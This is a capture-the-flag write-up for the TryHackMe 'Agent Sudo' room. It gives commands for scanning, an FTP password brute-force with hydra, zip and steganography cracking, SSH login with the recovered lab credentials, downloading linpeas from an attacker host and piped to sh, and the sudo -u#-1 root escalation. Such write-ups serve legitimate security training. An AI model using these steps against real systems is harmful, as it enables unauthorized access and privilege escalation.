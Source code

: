 # Agent Sudo

**Room Link:** [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)



## Enumerate

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

```
nmap -p- $VICTIM
```

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

### Burp

Change the user-agent to C

**From**

<figure><img src="../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

## Hash cracking and brute-force

### TCP/21 - FTP&#x20;

**Kali**

```
hydra -l chris -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ftp $VICTIM
Username: chris
Password: crystal
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
binwalk cutie.png 
binwalk cutie.png -e
```

<figure><img src="../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
zip2john 8702.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
7z e 8702.zip
Password: alien
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

### Cyber Chef

Link: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf cute-alien.jpg
Password: Alien51
```

<figure><img src="../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh james@$VICTIM
Password: hackerrules!
```

**Victim**

```
ls
```

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
scp james@$VICTIM:/home/james/Alien_autospy.jpg .
```

### LinPeas

Linpeas found that sudo is vulnerable, so I looked at the version online and found a way to escalate my privilege's.&#x20;

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /bin/bash
```

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>






















